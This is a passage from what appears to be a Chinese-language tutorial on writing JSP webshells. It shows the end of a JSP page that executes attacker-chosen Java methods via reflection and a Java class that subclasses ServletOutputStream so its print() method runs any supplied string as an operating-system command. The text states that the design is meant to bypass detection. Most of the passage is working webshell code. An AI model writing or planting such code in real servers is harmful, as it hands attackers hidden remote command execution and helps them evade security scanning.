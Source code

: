 ```jsp
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        }
        out.write(result.toString());
    } catch (ClassNotFoundException | IllegalAccessException | InvocationTargetException e) {
        e.printStackTrace();
    }

%>
```

效果：

![image-20191206154440506](../../images/image-20191206154440506.png)

由于我们自定义的类是不确定的，方法也是不确定的，因此我们想要实现通用，只能通过参数传递，并通过反射调用的方式执行代码，更好的办法是可以在 JAVA 中找到一个抽象类，存在能够接收和返回相应的参数的方法，我们构造一个继承这个抽象类的类，并重写方法，这样可以避免使用反射，并在 JSP 文件中直接调用此方法，能够绕过一些检测。

JAVA 文件如下：

```java
import javax.servlet.ServletOutputStream;
import java.io.*;

public class OverrideTest extends ServletOutputStream implements Serializable {

	@Override
	public void write(int b) throws IOException {
	}

	@Override
	public void print(String s) throws IOException {
		Process       a = Runtime.getRuntime().exec(s);
		InputStream   b = a.getInputStream();
		StringBuilder c = new StringBuilder();
		int           d;
		while ((d = b.read()) != -1) {
			c.append((char) d);
		}
		System.out.print(c.toString());
	}
}
```
